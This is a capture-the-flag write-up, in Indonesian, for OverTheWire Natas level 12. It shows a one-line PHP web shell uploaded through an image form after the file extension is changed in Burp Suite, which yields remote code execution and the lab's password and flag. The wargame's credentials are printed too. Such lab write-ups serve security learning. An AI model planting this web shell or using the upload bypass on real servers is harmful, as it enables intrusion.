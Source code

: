 ```yaml
---
layout: level
level: 12
previous: ./level 11.html
next: ./level 13.html
---
```


# soal
Username: natas12
URL:      http://natas12.natas.labs.overthewire.org

# solve
- login with cred natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
- lalu disini ada sebuah form gambar jpg yang kalo kita lihat dari codenya namaa file tersebut akan dibuat secara acak dengan format jpeg
  ![alt text](docs/images/image-22.png)
- jadi saya mencoba membuat backdoor php
  ```php
  cat simple.php 
  <?php echo system($_GET['c']); ?>
  ```
- dan mencoba menguploadnya dan ketika saya coba benar saja filenya diganti menjadi extension jpeg dengan nama acak
- dan untungnya ketika saya cek di burp suite tidak terdapat encrypt apapun jadi saya mengubahnya
  ![alt text](docs/images/image-23.png)
  ![alt text](docs/images/image-24.png)
- namun pas di forward hanya extensionnya saja namun tidak apa apa karena kita cuma butuh extensionya 
  ![alt text](docs/images/image-25.png)
- dan ketika saya coba buka filenya dengan urlnya saya sudah mendapatkan RCE
  ![alt text](docs/images/image-26.png)
- dan saya hanya perlu mendapatkan file passnya
  ![alt text](docs/images/image-27.png)

# flag
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC